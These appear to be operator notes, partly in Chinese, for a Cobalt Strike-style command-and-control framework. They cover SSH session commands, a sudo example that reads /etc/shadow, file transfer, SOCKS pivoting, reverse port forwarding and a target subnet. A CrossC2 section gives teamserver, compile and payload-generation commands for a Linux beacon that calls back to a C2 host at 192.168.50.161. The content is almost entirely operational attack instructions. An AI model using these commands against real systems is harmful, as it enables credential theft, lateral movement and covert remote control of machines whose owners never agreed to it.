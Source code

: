 ### SSH Sessions

- Launch SSH session with credentials:
  - `ssh [target:port] [username] [password]`
- Launch SSH session with key authentication:
  - `ssh-key [target:port] [username] [/path/key]`

* Run a command
  - `shell [command] [args]`
* Run a command with sudo
  - `sudo [password] [command] [args]`
  - `sudo password1234 cat /etc/shadow`
* Change folder
  - `cd /path/`
* Download and Upload files
  - `upload [/local/file]`
  - `download [file]`

- Start SOCKS pivoting
  - `socks 1234`
- Reverse Port forward
  - `rportfwd [listen port] [forward host] [forward port]`

`rportfwd` does require that the SSH daemon's `GatewayPorts` option is set to `yes` or `ClientSpecified`.

### targets

View - targets, 可手动或导入

手动 192.168.1.0/24

## Plugins

### CrossC2/上线 Linux

有问题时看 CS: View - Weblog

**使用 profile**

protocol_demo 有 `c2profile.c https.profile`

1. 使用 https.profile 启动 teamserver
1. 新建 `HTTPS` Listener, 只支持 HTTPS
1. 编译 c2profile.c
1. 生成 bin 运行

```shell
teamserver.bat 192.168.50.161 xxxxxxx https.profile
gcc c2profile.c -fPIC -shared -o lib_rebind_test.so
./genCrossC2.Linux 192.168.50.161 4431 .cobaltstrike.beacon_keys lib_rebind_test.so Linux x64 test
./test
```

修改心跳 CrossC2Kit_Loader.cna 末尾添加

